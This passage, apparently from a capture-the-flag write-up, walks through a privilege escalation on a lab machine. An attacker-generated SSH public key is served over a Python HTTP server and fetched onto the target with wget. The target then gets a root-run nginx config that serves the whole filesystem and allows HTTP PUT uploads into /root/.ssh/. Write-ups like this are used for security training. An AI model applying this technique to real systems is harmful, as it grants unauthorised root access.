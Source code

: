 ![ssh key generation](./pic/key-gen.png)
	
I already created them so i just replaced the existing ones.<br>
Now if we hit ls we can see that 2 new files are created:
```bash
ls -la
```
ouput:
```bash
-rw-------  1 kali kali 2590 15 nov 12.13 id_rsa
-rw-r--r--  1 kali kali  563 15 nov 12.13 id_rsa.pub
```
now we need to restart our python server (if is not already running):
```bash
python3 -m http.server 80
```
We can now nìmove to remote machine and setup the exploit:
```bash
cd /tmp/
wget http://10.10.16.46/id_rsa.pub
```
To upload the file to /root/.ssh/ we need to change an option on the nginx config file:
```bash
cat myrootwebserver.conf
```
output:
```xml
user root;
worker_processes 3;

events {
    worker_connections 1024;
}

http {
    server {
        listen 7332;
        root /;
        autoindex on;
        dav_methods PUT;
    }
}
```
by adding the `dav_methods PUT;` line we added a file upload functionality to the server using HTTP PUT method.<br>